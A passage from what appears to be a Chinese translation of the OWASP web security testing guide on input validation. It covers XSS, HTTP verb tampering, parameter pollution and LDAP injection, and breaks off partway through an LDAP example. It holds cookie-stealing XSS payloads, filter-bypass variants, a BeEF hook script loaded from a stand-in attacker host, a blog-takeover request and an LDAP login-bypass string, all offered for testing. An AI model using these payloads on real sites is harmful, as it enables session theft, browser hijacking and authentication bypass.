


# 第8讲 输入验证类测试

绝大多少Web 应用的安全缺陷在于没有正确的进行输入验证，输入不仅来自于客户端的用户，也来自于某些环境变量。这一问题导致了很多严重的web安全漏洞，例如XSS，SQLIs，解析器注入，locale/unicode攻击，文件系统攻击，缓冲区溢出攻击等等。

从客户端或外部实体输入的数据从不应该被信任，其中很可能包括攻击者篡改后的攻击载荷。“All input is Evil”，这是第一条规则。不幸的是，很多复杂应用经常有大量的入口点，使得开发人员很难遵守这一规则。本章节描述了数据验证类测试，旨在测试所有可能的输入表单，确定应用是否有足够的输入验证安全机制。

主要测试分类有：
- 反射型跨站脚本测试 Testing for Reflected Cross Site Scripting
- 存储型跨站脚本测试 Testing for Stored Cross Site Scripting
- HTTP动词伪造测试 Testing for HTTP Verb Tampering
- HTTP参数污染测试 Testing for HTTP Parameter pollution
- SQL注入测试	Testing for SQL Injection
- LDAP注入测试	Testing for LDAP Injection
- XML注入测试	Testing for XML Injection
- SSI注入测试 Testing for SSI Injection
- XPATH注入测试	Testing for XPath Injection
- IMAP/SMTP注入测试	Testing for IMAP/SMTP Injection
- 代码注入测试 Testing for Code Injection
- 命令注入测试	Testing for Command Injection
- 缓冲区溢出测试 Testing for Buffer overflow
- 孵化的漏洞测试 Testing for incubated vulnerabilities
- HTTP切片与走私测试 Testing for HTTP Splitting/Smuggling
- HTTP将来入站测试 Testing for HTTP Incoming Requests
- 主机头部注入测试 Testing for Host Header Injection
- 服务端模板注入测试 Testing for Server Side Template Injection

## 反射型跨站脚本测试 Testing for Reflected Cross Site Scripting
ID:WSTG-INPV-01

### 摘要
当攻击者在单个HTTP响应中注入浏览器可执行代码时，就会发生反射跨站点脚本（Reflected XSS）。注入的攻击未存储在应用程序本身内；它是非持久性的，仅影响打开恶意链接或第三方网页的用户。攻击字符串包含在精心设计的URI或HTTP参数中，被应用程序错误处理，并返回给受害者。

反射XSS是最常见的XSS攻击类型，也称为非持久XSS攻击，由于攻击有效载荷是通过单个请求和响应传递和执行的，因此它们也称为一阶或类型1 XSS。

当Web应用程序受到此类攻击时，它将通过请求发送的未经验证的输入传递回客户端。攻击的常见方式包括：
- 设计阶段，攻击者创建并测试有问题的URI；
- 社会工程阶段，诱骗受害者将其URI加载到他们的浏览器上；
- 最终执行阶段，在受害者的浏览器上执行有问题的代码。

通常，攻击者的代码是用JavaScript语言编写的，但是也可以使用其他脚本语言，例如ActionScript和VBScript。攻击者通常利用这些漏洞来安装按键记录器，窃取受害者的Cookie，执行剪贴板盗窃以及更改页面内容（例如下载链接）。

防止XSS漏洞的主要困难之一是正确的字符编码。在某些情况下，Web服务器或Web应用程序可能无法过滤某些字符编码，因此，例如，Web应用程序可能会过滤掉```<script>```，但可能不会过滤```%3cscript%3e```，而仅包含标签的另一种编码。

### 测试方法
#### 黑匣子测试
黑盒测试将至少包括三个阶段：

##### 找出所有输入向量
检查每个页面的输入向量。测试人员必须确定web应用程序的所有用户输入/环境输入变量，以及如何输入。这包括隐藏的、不容易看见的输入，例如：HTTP参数、POST数据、隐藏表单字段、预定义键值等。通常可以使用浏览器的开发者工具和Web代理查看所有请求输入变量。

##### 分析输入向量
分析每个输入向量，检查潜在的漏洞。为了检测XSS漏洞，测试人员可以将特定的输入数据与每个输入向量结合使用。这样的输入数据通常是无害的，但是浏览器会响应，从而表明有该漏洞。可以通过使用Web应用程序模拟器，读取攻击字符串字典或动态生成测试数据。例如：
- ```<script>alert(123)</script>```
- ```><script>alert(document.cookie)</script>```

有关潜在测试字符串的完整列表，可以参考https://owasp.org/www-community/xss-filter-evasion-cheatsheet

##### 检查影响
对于上一阶段中尝试的每个测试输入，测试人员要分析结果并确定是否有实际的安全影响。这需要检查结果网页HTML并搜索输入。一旦找到，测试人员将识别出未正确编码，替换或过滤掉的任何特殊字符。易受攻击的未经过滤的特殊字符集将取决于HTML该部分的上下文。

理想情况下，所有HTML特殊字符都将替换为HTML实体。要识别的主要HTML实体是：
- ```>``` 大于
- ```<``` 小于
- ```&``` 
- ```'```
- ```"```

HTML和XML规范定义的实体完整列表可以参考：https://en.wikipedia.org/wiki/List_of_XML_and_HTML_character_entity_references

在HTML动作或JavaScript代码的上下文中，将需要转义，编码，替换或过滤掉一组不同的特殊字符。这些字符包括：
- ```\n```
- ```\r```
- ```'```
- ```"```
- ```\```
- ```\uXXXX``` unicode码值

更多的，可以参考[Mozilla JavaScript guide](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Grammar_and_types#Using_special_characters_in_strings)

##### 例子

###### 例1
例如，考虑某个网站有个欢迎某用户的提示 “ Welcome
%username% ” 和一个下载连接```http://example.com/index.php?user=MrSmith```。

测试人员有必要怀疑每个数据注入点可能产生XSS攻击。为了进行分析，测试人员将扮演用户，尝试发现漏洞。让我们点击下列链接，看看会发生什么。```http://example.com/index.php?user=<script>alert(123)</script>```。如果没有有效的防护，就会在页面上显示一个警告框，并写着123.这说明了有反射型XSS漏洞。

###### 例2

让我们尝试另一段链接：
```http://example.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName(“a”);AllLinks[0].href = “http://badexample.com/malicious.exe”; }</script> ```

这可能在浏览器端弹出一个链接，诱使用户点击并下载恶意的exe。

##### 绕过XSS过滤

防护反射XSS攻击常通过web应用过滤用户输入的方法实现。web应用防火墙阻止恶意输入，或采用现代web浏览器的内嵌机制。测试人员必须假定浏览器无法过滤用户输入。新的攻击形式可能会绕过已有的防护手段。

开发人员在过滤/消除用户输出时，有几种手段，例如：返回错误页、删除输入、编码、替换无效输入等。这意味着Web应用检查和纠正无效输入这一功能，可能是一个新的安全隐患。黑名单不会包含所有的攻击字符串，而白名单可能过于保守，输入数据消毒可能失效。

[XSS 过滤免杀cheat sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)文档列出了通常的免杀测试项。

###### 例3：标签属性值

有些过滤基于黑名单，它们不能阻止所有表达式。事实上，有一些XSS渗透可以携带没有```<>```的脚本。例如某个网站使用用户输入填充一个属性：```<input type="text" name="state" value="INPUT_FROM_USER">```，而攻击者可以提交类似代码：```" onfoucus="alert(document.cookie)```。

###### 例4：不同的语法和编码

在许多例子中，可能基于签名的过滤器能简单地检测的混淆攻击。你可以尝试插入不希望有语法或编码变化。如果有代码返回，说明浏览器容忍了这些变化，而且它们可能也能够被过滤器所接受。

例如：
```"><script >alert(document.cookie)</script >```
```"><ScRiPt>alert(document.cookie)</ScRiPt>```
```"%3cscript%3ealert(document.cookie)%3c/script%3e```

###### 例5

假设开发人员使用下列代码保护输入：
```
<?
    $re = "/<script[^>]+src/i";

    if (preg_match($re, $_GET['var']))
    {
        echo "Filtered";
        return;
    }
    echo "Welcome ".$_GET['var']." !";
?>
```
正则表达式会检查```<script [anything but the character: '>'] src```是否被插入。可以过滤如下的xss：```<script src="http://attacker/xss.js"></script>```。 但是它可能会在使用">"时被绕过，例如：```http://example/?var=<SCRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>```

###### 例7 HTTP 参数污染（HPP）
绕过检查的另一个方法是HTTP 参数污染。这种技术最新由Stefano di Paola和Luca Carettoni 在2009年的会议上提出。这种免杀技术由在有同样名称的多个参数间的分片攻击向量构成。操作方法依赖于浏览器如何解析这些参数。所以这类免杀不总是有效。如果测试环境将所有同名参数连接在一起，那么攻击者可能会使用此类技术绕过基于模式的安全机制。常规攻击如：```http://example/page.php?param=<script>[...]</script>```，而使用 HPP的攻击为:```http://example/page.php?param=<script&param=>[...]</&param=script>```。

#### 灰盒测试

类似于黑盒测试，但有了开发人员的帮助，可以查看源代码了解安全过滤机制。

### 工具

- PHP Charset Encoder(PCE) This tool helps you encode arbitrary texts to and from 65 kinds of charsets. Also some encoding functions featured by JavaScript are provided.
- HackVertor It provides multiple dozens of flexible encoding for advanced string manipulation attacks.
- XSS-Proxy XSS-Proxy is an advanced Cross-Site-Scripting (XSS) attack tool.
- ratproxy A semi-automated, largely passive web application security audit tool, optimized for an accurate and sensitive detection, and automatic annotation, of potential problems and security-relevant design patterns based on the observation of existing, user-initiated traffic in complex web 2.0 environments.
- Burp Proxy Burp Proxy is an interactive HTTP/S proxy server for attacking and testing web applications.
- OWASP Zed Attack Proxy (ZAP) ZAP is an easy to use integrated penetration testing tool for finding vulnerabilities in web applications. It is designed to be used by people with a wide range of security experience and as such is ideal for developers and functional testers who are new to penetration testing. ZAP provides automated scanners as well as a set of tools that allow you to find security vulnerabilities manually.

## 存储型跨站脚本测试 Testing for Stored Cross Site Scripting 

ID : wstg-inpv-02

### 概述

存储型跨站点脚本（XSS）是最危险的XSS类型。允许用户存储数据的Web应用程序可能会遭受此类攻击。本节说明了存储型跨站点脚本注入和相关利用场景的示例。

当Web应用程序接收了用户输入的恶意内容，然后将该输入存储在数据存储中以备后用时，就会发生存储型XSS。恶意数据将看起来是正常网站的一部分，用户浏览时会在浏览器中运行。由于此漏洞通常涉及对应用程序的至少两个请求，因此也可以称为二阶XSS。

此漏洞可用于进行多种基于浏览器的攻击，包括：
- 劫持其他用户的浏览器
- 捕获应用程序用户查看的敏感信息
- 伪装应用程序
- 内部主机的端口扫描（相对于Web应用程序用户的“内部”）
- 定向传递基于浏览器的漏洞
- 其他恶意活动

存储的XSS不需要恶意链接即可被利用。当用户访问带有存储的XSS的页面时，将成功利用漏洞。以下阶段与典型的存储XSS攻击情形有关：
- 攻击者将恶意代码存储到易受攻击的页面中
- 用户在应用程序中进行身份验证
- 用户访问易受攻击的页面
- 用户的浏览器执行恶意代码


也可以使用浏览器渗透框架（例如BeEF和XSS Proxy）来利用这种攻击。这些框架允许进行复杂的JavaScript开发。

在较高特权用户可以访问的应用程序区域中，存储型XSS尤其危险。管理员访问这类XSS所在页面时，其浏览器会自动执行攻击。这可能会暴露敏感信息，例如会话授权令牌。

### 测试方法
#### 黑匣子测试

标识存储的XSS漏洞的过程类似于测试反射的XSS时描述的过程。

##### 输入表单
第一步是识别出所有能将用户输入存储到后端并由应用程序显示的“入口点”。可以在以下位置找到存储的用户输入的典型示例：
- 用户/个人资料页面：该应用程序允许用户编辑/更改个人资料详细信息，例如名字，姓氏，昵称，头像，图片，地址等。
- 购物车：该应用程序允许用户将商品存储到购物车中，然后可以稍后对其进行检查
- 文件管理器：允许上传文件的应用程序
- 应用程序设置/首选项：允许用户设置首选项的应用程序
- 论坛/留言板：允许用户之间交换帖子的应用程序
- 博客：博客应用程序是否允许用户提交评论
- 日志：如果应用程序将一些用户输入存储到日志中。

##### 分析HTML代码
应用程序存储的输入通常在HTML标记中使用，但也可能在 JavaScript中找到。在此阶段，最基本的是了解是否存储了输入以及如何在页面上下文中放置输入。与反射型XSS不同，渗透测试人员还要考虑通过带外渠道接收和存储的用户输入。

注意：管理员可访问的所有应用程序区域都要被测试，排除一切可能发送存储型XSS的隐患。


示例：通过电子邮件将数据存储在index2.php中.


index2.php中的代码：
```<input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com" />```

测试人员要尝试将代码注入<input>标签外部的方法例如：```<input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com"> MALICIOUS CODE <!-- />```

##### 尝试建立存储型XSS

注入示例：
```aaa@aa.com”><script>alert(document.cookie)</script>```

```aaa@aa.com&quot;&gt;&lt;script&gt;alert(document.cookie)&lt;/script&gt;```

```aaa@aa.com%22%3E%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E```


上面的注入将导致一个包含cookie值的弹出窗口。要确保输入是通过应用程序提交的。如果客户端设置了安全控制，则可能会禁用JavaScript或使用Web代理修改HTTP请求。还要注意，分别使用HTTP GET和POST请求进行测试。

##### 使用BeEF进行存储XSS攻击

通过高级Javascript渗透框架BeEF和XSS代理可以进行存储型XSS攻击。

典型的BeEF渗透场景包括：
- 用户准备浏览具有XSS漏洞的网页
- 利用Web应用程序中的XSS 漏洞来注入Javascript钩子。即诱骗用户在其浏览器中执行含有类似```<script src=http://attackersite/hook.js></script>```的语句。该hook.js负责获取当前浏览器信息，并与攻击者BeEF通信
- 通过BeEF控制台获取信息或利用漏洞控制用户浏览器

示例：在index2.php中的BeEF注入：```aaa@aa.com”><script src=http://attackersite/hook.js></script>```

当用户加载页面index2.php时，脚本hook.js由浏览器执行，然后可以访问cookie，用户屏幕截图、用户剪贴板，并发起复杂的XSS攻击。

##### 上传文件
如果Web应用程序允许文件上传，则要检查是否可以上传HTML内容。例如，如果允许HTML或TXT文件，则可以将XSS载荷注入上载的文件中。渗透测试器还应该验证文件上传是否允许设置任意MIME类型。

考虑以下用于文件上传的HTTP POST请求：
```
POST /fileupload.aspx HTTP/1.1
[…]

Content-Disposition: form-data; name="uploadfile1"; filename="C:\Documents and Settings\test\Desktop\test.txt"
Content-Type: text/plain

test
```

此设计缺陷可以在浏览器MIME错误处理攻击中加以利用。例如，看起来无害的文件（例如JPG和GIF）可以包含XSS有效负载，该有效负载在由浏览器加载时执行。当可以将图像的MIME类型（例如image / gif）设置为text / html时，这是可能的。在这种情况下，客户端浏览器会将文件视为HTML。

考虑如下的伪造的HTTP POST请求：
```
Content-Disposition: form-data; name="uploadfile1"; filename="C:\Documents and Settings\test\Desktop\test.gif"
Content-Type: text/html

<script>alert(document.cookie)</script>
```

注意，Internet Explorer不能以与Mozilla Firefox或其他浏览器相同的方式处理MIME类型。例如，Internet Explorer将含有HTML的TXT处理为HTML。有关MIME处理的更多信息，请参阅本章底部的白皮书部分。

#### 灰盒测试

灰盒测试与黑盒测试类似。渗透测试人员可以通过与开发人员沟通了解用户输入、输入验证控制、数据存储等更多信息。

推荐测试人员检查用户输入如何被web应用所处理，以及它们被如何存储。推荐下列步骤：
- 使用前端应用，使用特殊字符或无效字符进行输入；
- 分析应用响应
- 识别输入验证控制以及效果
- 访问后端系统并检查输入是否被存储，以及如何存储
- 分析源代码，理解如何处理要存储的输入

如果源代码可以查看，所有在输入表单中使用的变量都需要被分析。特别是，诸如PHP，ASP和JSP之类的编程语言会使用预定义的变量/函数来存储来自HTTP GET和POST请求的输入。

下表总结了分析源代码时要查看的一些特殊变量和函数：

|PHP|	ASP	|JSP|
|-|-|-|
|$_GET - HTTP GET variables|	Request.QueryString - HTTP GET|	doGet, doPost servlets - HTTP GET and POST|
|$_POST - HTTP POST variables|	Request.Form - HTTP POST	|request.getParameter - HTTP GET/POST variables|
|$_REQUEST – HTTP POST, GET and COOKIE variables	|Server.CreateObject - used to upload files	||
|$_FILES - HTTP File Upload variables|||

注意，上面仅列出了比较常见的参数，实际测试中要检查所有参数。

### 工具
- PHP Charset Encoder(PCE) PCE helps you encode arbitrary texts to and from 65 kinds of character sets that you can use in your customized payloads.
- Hackvertor Hackvertor is an online tool which allows many types of encoding and obfuscation of JavaScript (or any string input).
- BeEF BeEF is the browser exploitation framework. A professional tool to demonstrate the real-time impact of browser vulnerabilities.
- XSS-Proxy XSS-Proxy is an advanced Cross-Site-Scripting (XSS) attack tool.
- Burp Burp Proxy is an interactive HTTP/S proxy server for attacking and testing web applications.
- XSS Assistant Greasemonkey script that allow users to easily test any web application for cross-site-scripting flaws.
- OWASP Zed Attack Proxy (ZAP) ZAP is an easy to use integrated penetration testing tool for finding vulnerabilities in web applications. It is designed to be used by people with a wide range of security experience and as such is ideal for developers and functional testers who are new to penetration testing. ZAP provides automated scanners as well as a set of tools that allow you to find security vulnerabilities manually.
### References
OWASP Resources
XSS Filter Evasion Cheat Sheet

## HTTP动词伪造测试 Testing for HTTP Verb Tampering
ID : WSTG-INPV-03

### 概述

HTTP动词伪造测试的含义是测试Web应用程序对不同HTTP方法请求的响应。对于测试过程中发现的每个可访问对象，测试人员应该使用各种HTTP 方法访问对象。

HTTP 1.1 规范定义了如下HTTP方法或动词：
- OPTIONS
- GET
- HEAD
- POST
- PUT
- DELETE
- TRACE
- CONNECT

如果使用了WebDAV（Web分布式创作与版本）规范，那么WebDAV扩展允许多种其它的HTTP方法：
- PROPFIND
- PROPPATCH
- MKCOL
- COPY
- MOVE
- LOCK
- UNLOCK

现实中大多数应用只考虑GET和POST方法，对于其它方法不做特殊处理。默认的HTTP服务器可能存在某种漏洞，使攻击者利用不同于GET和POST方法的方法时可以绕过专为GET或POST方法的安全控制。

注意，HTML标准不支持除GET和POST以外的方法，其它方法不能与HTML文档中调用；但是JavaScript和ajax可以使用其它方法。

如果待测试的web应用没有专门处理任何非标准的http方法，http动词篡改测试比较简单，只要web服务器接受了GET和POST请求之外的其它方法，就可以断言该服务器存在动词篡改接受的问题。解决方法是禁用web应用服务器内或web防火墙上所有的非GET 或 POST功能。

如果您的应用程序需要诸如HEAD或OPTIONS之类的方法，则将大大增加测试的负担。系统中的每个动作都需要进行验证，以确保这些替代方法不会在没有适当身份验证的情况下触发动作，也不会显示有关内容或工作Web应用程序的信息。如果可能，将替代HTTP方法的使用限制为一个不包含用户操作的页面，例如默认的登录页面（例如：index.html）。

### 测试方法

由于HTML标准不支持GET或POST以外的请求方法，因此我们将需要制作自定义HTTP请求以测试其他方法。

#### 手动HTTP动词篡改

下面使用netcat工具发出自定义的http请求：

首先要准备好要发送的HTTP请求。每个HTTP1.1请求都遵循以下基本格式，方括号括起来的元素与应用程序相关，最后还需要一个空行。

```
[METHOD] /[index.htm] HTTP/1.1
host: [www.example.com]

```

为了生成单独的请求，您可以手动将每个请求键入netcat或telnet并检查响应。但是，为了加快测试速度，您还可以将每个请求存储在单独的文件中。我们将在这些示例中演示第二种方法。使用您喜欢的编辑器为每种方法创建一个文本文件。修改您的应用程序的登录页面和域。

- OPTIONS
```
OPTIONS /index.html HTTP/1.1
host: www.example.com

```
- GET
```
GET /index.html HTTP/1.1
host: www.example.com

```
- HEAD
```
HEAD /index.html HTTP/1.1
host: www.example.com

```
- POST
```
POST /index.html HTTP/1.1
host: www.example.com

```
- PUT
```
PUT /index.html HTTP/1.1
host: www.example.com

```
- DELETE
```
DELETE /index.html HTTP/1.1
host: www.example.com

```
- TRACE
```
TRACE /index.html HTTP/1.1
host: www.example.com

```
- CONNECT
```
CONNECT /index.html HTTP/1.1
host: www.example.com

```

第二步，使用nc命令发送请求。下面使用nc将上述文本或文件发到目标的80端口。

```nc www.example.com 80 < OPTION.http.txt```

第三步，分析HTTP响应。尽管每个HTTP方法都可能返回不同的结果，但是除GET和POST之外，有一个有效的结果，那么就表明未能通过测试（测试失败），因为服务器正在响应不必要的方法/动词。这些方法应禁用。


#### 自动化的HTTP动词篡改测试

如果您能够通过简单的HTTP状态代码（200 OK，501错误等）分析应用程序，那么以下bash脚本将测试所有可用的HTTP方法。

```bash
#!/bin/bash

for webservmethod in GET POST PUT TRACE CONNECT OPTIONS PROPFIND;

do
    printf "$webservmethod " ;
    printf "$webservmethod / HTTP/1.1\nHost: $1\n\n" | nc -q 1 $1 80 | grep "HTTP/1.1"

done
```

将上述代码保存到文件```web_server_methods_discovery```中，然后使用下列命令分析某个web服务器：
```./web_server_methods_discovery 172.18.122.221```


### 参考
https://web.archive.org/web/20081116154150/http://www.aspectsecurity.com/documents/Bypassing_VBAAC_with_HTTP_Verb_Tampering.pdf

## HTTP参数污染测试 Testing for HTTP Parameter pollution

ID:wstg-inpv-04

### 摘要

本测试旨在检查Web应用程序对接收到多个具有相同名称的HTTP参数后的响应；例如，如果该username参数两次包含在GET或POST参数中。

提供多个具有相同名称的HTTP参数可能会使应用程序以无法预期的方式解释值。通过利用这些影响，攻击者可能能够绕过输入验证，触发应用程序错误或修改内部变量值。由于HTTP参数污染（简称HPP）影响所有Web技术的构建块，因此存在服务器和客户端攻击。

当前的HTTP标准不包括有关如何解释具有相同名称的多个输入参数的指南。例如，RFC 3986仅将术语“ 查询字符串”定义为一系列字段值对，而RFC 2396则定义了反向和未保留的查询字符串字符的类。没有适当的标准，Web应用程序组件会以多种方式处理这种情况（有关详细信息，请参见下表）。

就其本身而言，这不一定表示存在漏洞。但是如果开发人员不知道该问题，则重复的参数的存在可能会在应用程序中产生异常行为，攻击者可能会利用该异常行为。意外行为是漏洞的常见来源，在这种情况下，漏洞可能导致HTTP参数污染攻击。为了更好地介绍此类漏洞和HPP攻击的结果，分析过去发现的一些实际示例很有趣。

#### 输入验证和过滤器绕过
在2009年，关于HTTP参数污染的第一项研究发表后，该技术立即受到安全界的关注，成为绕过Web应用程序防火墙的一种可能方法。

这些缺陷之一（影响ModSecurity SQL注入核心规则）代表了应用程序和过滤器之间的阻抗不匹配的完美示例。ModSecurity过滤器将正确地将以下字符串黑名单：select 1,2,3 from table，从而阻止此示例URL被Web服务器处理：```/index.aspx?page=select 1,2,3 from table```。但是，通过利用多个HTTP参数拼接，攻击者可以在ModSecurity筛选器已接受输入之后，使应用服务器将字符串拼接起来。例如，```/index.aspx?page=select 1&page=2,3```表中的URL不会触发ModSecurity筛选器，但是应用程序层会将输入重新组合为完整的恶意字符串。

另一个HPP漏洞示例会影响Apple Cups。Apple Cups是许多UNIX系统使用的打印系统。利用HPP，攻击者可以使用以下URL轻松触发Cross-Site Scripting漏洞：```http://127.0.0.1:631/admin/?kerberos=onmouseover=alert(1)&kerberos```。通过添加kerberos具有有效字符串（例如，空字符串）的额外参数，可以绕过应用程序验证检查点。由于验证检查点将仅考虑第二次出现，因此kerberos在用于生成动态HTML内容之前，未对第一个参数进行适当的清理。成功的利用将导致在托管网站的上下文中执行JavaScript代码。

#### 身份验证绕过
在流行的博客平台Blogger中发现了一个甚至更为严重的HPP漏洞。该错误允许恶意用户通过使用以下HTTP请求来获取受害者博客的所有权：

```
POST /add-authors.do HTTP/1.1

security_token=attackertoken&blogID=attackerblogidvalue&blogID=victimblogidvalue&authorsList=goldshlager19test%40gmail.com(attacker email)&ok=Invite
```

这个请求中含有两个blogID，安全机制应该检查这两个或判定这样的请求无效，但事实上身份验证只检查了第二个。

#### 应用程序服务器的预期行为

下表说明了在多次出现相同的HTTP参数的情况下，不同的web技术的行为。

假设URL和查询字符串为：```http://example.com/?color=red&color=blue```

|Web Application Server Backend|	Parsing Result|	Example|
|-|-|-|
|ASP.NET / IIS|所有同名值使用逗号拼接	|color=red,blue|
|ASP / IIS|所有同名值使用逗号拼接	|	color=red,blue|
|PHP / Apache|仅保存最后一个值	|color=blue|
|PHP / Zeus|仅保存最后一个值|	color=blue|
|JSP, Servlet / Apache Tomcat|	仅保存第一个值|	color=red|
|JSP, Servlet / Oracle Application Server 10g	|仅保存第一个值	|color=red|
|JSP, Servlet / Jetty|仅保存第一个值|	color=red
|IBM Lotus Domino|仅保存最后一个值|	color=blue|
|IBM HTTP Server|仅保存第一个值|color=red|
|mod_perl, libapreq2 / Apache|仅保存第一个值|	color=red|
|Perl CGI / Apache|仅保存第一个值|	color=red|
|mod_wsgi (Python) / Apache|仅保存第一个值|color=red|
|Python / Zope|	所有同名值会被组织为一个列表|	color=['red','blue']|

### 测试方法

幸运的是，因为HTTP参数的分配通常是通过Web应用程序服务器而不是应用程序代码本身进行的，所以测试参数污染的响应应该在所有页面和操作中都是标准的。但是，由于需要深入的业务逻辑知识，因此测试HPP需要手动测试。自动工具只能部分地帮助测试人员，因为它们往往会产生过多的误报。另外，HPP可以在客户端和服务器端组件中出现。

#### 服务器端的HPP

为了测试HPP漏洞，首先要找出所有用户可输入的表单或action。GET请求中的查询字符串参数，容易在地址栏中进行修改。如果在POST中通过表单中提交，测试人员需要使用代理拦截并修改。修改时，要对所有参数进行HPP测试。例如如果```search_string```参数为：```http://example.com/?search_string=kittens```，或者```http://example.com/?mode=guest&search_string=kittens&num_results=100```

测试方法相同，如下：编辑该url为```http://example.com/?mode=guest&search_string=kittens&num_results=100&search_string=puppies``` ，然后提交。分析响应页面以确定web服务器如何解析同名的参数值。由于服务器负责解析，所以web应用的不同页面得到的结果可能类似。

测试通过的原则是：如果已有的输入验证和其它安全机制已经足够，并且服务器仅接收第一个或最后一个被污染的参数，则通常不会存在漏洞。如果同名的参数值被接收后被拼接或组成列表，就有可能形成漏洞。更深入的分析是为每个HTTP参数发送3个HTTP请求：
- 第1个请求，提交包含标准参数名成和值的HTTP请求，并记录HTTP响应，例如: ```page?par1=val1```
- 第2个请求，将参数值替换为篡改的值，提交并记录HTTP响应，例如: ```page?par1=HPP_TEST1```
- 第3个请求，在请求中同时给出1和2中的参数与值，例如```page?par1=val1&par1=HPP_TEST1```
- 比较之前所有步骤中获得的响应。如果第3个请求的响应不同于第1个请求和第2个请求的响应，则存在HPP漏洞。

#### 客户端HPP
与服务器端HPP相似，手动测试是审核Web应用程序以检测影响客户端组件的参数污染漏洞的唯一可靠技术。在服务器端变体中，攻击者利用易受攻击的Web应用程序访问受保护的数据或执行不允许或不应该执行的操作，而客户端攻击旨在破坏客户端组件和技术。

要测试HPP客户端漏洞，首先要找出所有用户可输入的表单或action。例如web应用中的搜索页面是理想的选择，而登录页可能不太理想，因为它可能不会向用户显示无效结果。

与服务器端HPP相似，使用```%26HPP_TEST```污染每个HTTP参数并查找用户提供的有效负载的url解码：
- ```&HPP_TEST```
- ```&amp;HPP_TEST```
- 其它形式

特别要注意的是包含了data，src，href等属性或表单action的HPP向量的响应。同样，此默认行为是否揭示了潜在的漏洞，取决于特定的输入验证，过滤和应用程序业务逻辑。此外，重要的是要注意，此漏洞也可能影响XMLHttpRequest（XHR），运行时属性创建和其他插件技术（例如Adobe Flash的flashvars变量）中使用的查询字符串参数。

### 工具
owasp zap


## LDAP注入测试	Testing for LDAP Injection

ID:WSTG-INPV-06

### 概述

轻型目录访问协议（LDAP）用于存储有关用户，主机和许多其他对象的信息。LDAP注入是一种服务器端攻击，它可能允许泄露，修改或插入有关LDAP结构中用户和主机的敏感信息。这是通过修改输入参数，然后传递给内部搜索，添加和修改功能来完成的。

Web应用程序使用LDAP的情况常见于组织内部网络，以便用户进行身份验证或搜索其他用户的信息。LDAP注入攻击主要手段是在应用程序查询中注入LDAP搜索过滤器元字符。

Rfc2254 定义了有关如何在LDAPv3上构建搜索过滤器的语法，并扩展了Rfc1960（LDAPv2）。

LDAP搜索过滤器以波兰（Polish ）符号（也称为 Polish  符号前缀符号）构造。

这意味着搜索过滤器上的伪代码条件如下：

```find("cn=John & userPassword=mypass")```

在LDAP查询中将表示为：

```find("(&(cn=John)(userPassword=mypass))")```

可以使用以下元字符在LDAP搜索过滤器上应用布尔条件和组聚合：

|元字符|含义|
|-|-|
|```&```|布尔与|
|```|```|布尔或|
|```！```|布尔非|
|```=```|等于|
|```~=```|近似等于|
|```>=```|大于等于|
|```<=```|小于等于|
|```*```|任意字符|
|```()```|组|

更多复杂形式可以参考相关RFC

成功渗透LDAP注入漏洞可使测试者实现：
- 访问非授权的内容
- 免受应用约束
- 收集非授权信息
- 增加或修改LDAP树状结构中的对象

### 如何测试

#### 例子1 查询过滤器

假设有一个web应用使用查询过滤器如下：
```searchfilter="(cn="+user+")"```

在HTTP请求中会被初始化为如下形式：
```http://www.example.com/ldapsearch?user=John```

如果值John被一个*号替代，那么请求如下：
```http://www.example.com/ldapsearch?user=*```

过滤器形式如下：
```searchfilter="(cn=*)"```
它会返回每一个含有cn属性的对象。

如果应用中存在LDAP注入漏洞，他将显示用户属性中的全部或一部分，这取决于当前用户在LDAP中的权限。

#### 例2 登录

如果Web应用程序在登录过程中使用LDAP来检查用户凭据且存在LDAP注入漏洞，则可以通过注入始终为真的LDAP查询（类似于SQL和XPATH注入的方式）来绕过身份验证检查。

例如：Web应用程序使用过滤器来匹配LDAP用户/密码对。
```searchlogin= "(&(uid="+user+")(userPassword={MD5}"+base64(pack("H*",md5(pass)))+"))";```

通过使用以下值：
```
user=*)(uid=*))(|(uid=*
pass=password
```
